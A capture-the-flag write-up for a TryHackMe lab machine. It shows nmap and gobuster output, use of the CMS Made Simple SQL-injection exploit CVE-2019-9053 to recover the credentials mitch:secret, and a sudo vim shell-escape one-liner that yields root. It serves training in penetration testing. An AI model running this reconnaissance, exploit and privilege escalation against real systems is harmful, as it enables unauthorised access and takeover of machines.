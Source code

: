 This was a easy challenge from TryHackMe.

Following were the nmap results
```diff
nmap -p- -A 10.10.232.159 -T4

Nmap scan report for 10.10.232.159
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.3.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 5.X|3.X (89%), Crestron 2-Series (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 5.4 (89%), Linux 3.10 - 3.13 (88%), Crestron XPanel control system (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   38.00 ms  10.17.0.1
2   ... 4
5   165.38 ms 10.10.232.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1022.65 seconds
```

At first glance port 80 and 21 look interesting.

The FTP port does not have anything interesting in it.

Port 80 leads to a basic apache web server default page.
![alt text](/assets/image8.png)

Let's try to dig in deeper. Running gobuster to find the directories that connected to this website.

```diff
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.232.159
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 315] [--> http://10.10.232.159/simple/]

[!] Keyboard interrupt detected, terminating.

===============================================================
Finished
===============================================================

```

Bingo we have found a directory named /simple

Exploring this page, we can see that it hosts a "CMS Made Simple v2.2.8". Looking for vulnerabilities on this service we can see that there is a CVE related to this service, CVE-2019-9053. This basically allowed an attacker to achieve unauthenticated blind time-based SQL injection, which in turn lead to credential leak

Running the exploit from exploitDB with the -u -w and --crack flags set we can find the username and password hash, after trying to find the hash of the password using crackstation I found that the username:password combo was mitch:secret. Now we can ssh into the machine using these credentials, but keep in mind ssh is not running on default port, its running on port 2222.
We can then cat out the user flag.

Now for privelege escalation I listed the allowed (and forbidden) commands for the invoking user usinf **sudo -l** command

```diff
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

From GTFObins I came across this one-liner **"sudo vim -c ':!/bin/sh'"** to escalate to root user

```diff
$ sudo vim -c ':!/bin/sh'

/# whoami 
root
/# cat /root/root.txt
W3ll d0n3. You made it!
/# 
```

Great! We have got both the user and root flags.